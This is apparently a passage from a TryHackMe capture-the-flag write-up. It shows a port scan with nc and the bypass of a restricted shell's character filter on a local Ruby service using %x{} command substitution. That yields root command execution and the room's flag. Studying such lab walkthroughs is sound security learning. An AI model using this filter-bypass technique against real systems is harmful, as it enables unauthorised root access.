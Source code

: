 ```bash
red-stone-one-carat% netsat -tunlp
zsh: command not found: netsat
red-stone-one-carat% netstat -tunlp
zsh: permission denied: netstat
red-stone-one-carat% ss
zsh: permission denied: ss
red-stone-one-carat% getent hosts
getent:2: permission denied: sed
getent:2: permission denied: grep
```

```bash
red-stone-one-carat% nc -zvnw 1 127.0.0.1 1-65535
```


<img width="1004" height="105" alt="image" src="https://github.com/user-attachments/assets/8f6fc95f-9f2c-46ee-b7b8-0618da4279d9" />


```bash
red-stone-one-carat% nc 127.0.0.1 31547
$ [
Forbidden character
$ ]
Forbidden character
$ (
Forbidden character
$ )
Forbidden character
$ "
Forbidden character
$ '
Forbidden character
$ %x{id}
uid=0(root) gid=0(root) groups=0(root)
$ %x{ls -lah /root}
total 32K
drwx------  4 root    root    4.0K May 17  2021 .
drwxr-xr-x 23 root    root    4.0K May 17  2021 ..
-rw-r--r--  1 root    root    3.1K May 12  2021 .bashrc
drwx------  2 root    root    4.0K May 12  2021 .cache
drwx------  3 root    root    4.0K May 12  2021 .gnupg
-rw-r--r--  1 root    root     148 Aug 17  2015 .profile
-rw-r--r--  1 vagrant vagrant   37 May 17  2021 root.txt
-rwxr-xr--  1 vagrant vagrant  612 May 17  2021 server.rb
$  %x{cat /root/*}
THM{58e53d1324eef6265fdb97b08ed9aadf}require 'socket'

server = TCPServer.new 'localhost', 31547
...
```

<br>
